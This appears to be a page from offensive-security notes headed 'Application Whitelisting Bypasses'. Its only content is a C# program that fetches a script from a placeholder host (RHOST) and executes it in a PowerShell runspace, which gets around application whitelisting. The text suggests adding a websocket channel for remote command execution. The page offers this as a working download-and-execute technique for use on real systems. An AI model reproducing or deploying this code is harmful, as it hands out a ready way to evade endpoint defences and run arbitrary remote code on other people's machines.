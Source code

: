 # Application Whitelisting Bypasses
---

### PowerShell Runspace
This will allow you to execute the contents of a remote file in a PowerShell runspace. This could be improved by creating a websocket server/client to execute commands within the runspace. 
```cs
using System;
using System.Net;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace ConsoleApp3
{
    public class Program
    {
        public static void Main(string[] args)
        {
            WebClient client = new WebClient();
            var myString = client.DownloadString("http://RHOST/commands.txt");
            Console.WriteLine("Command to be executed: " + myString);
            

            Runspace runspace = RunspaceFactory.CreateRunspace();

            runspace.Open();

            Pipeline pipeline = runspace.CreatePipeline();
            pipeline.Commands.AddScript(myString);
            pipeline.Commands.Add("Out-String");

            Collection<PSObject> results = pipeline.Invoke();

            runspace.Close();

            StringBuilder stringBuilder = new StringBuilder();
            foreach (PSObject obj in results)
            {
                Console.WriteLine(obj.ToString());
            }
        }
    }
}
```
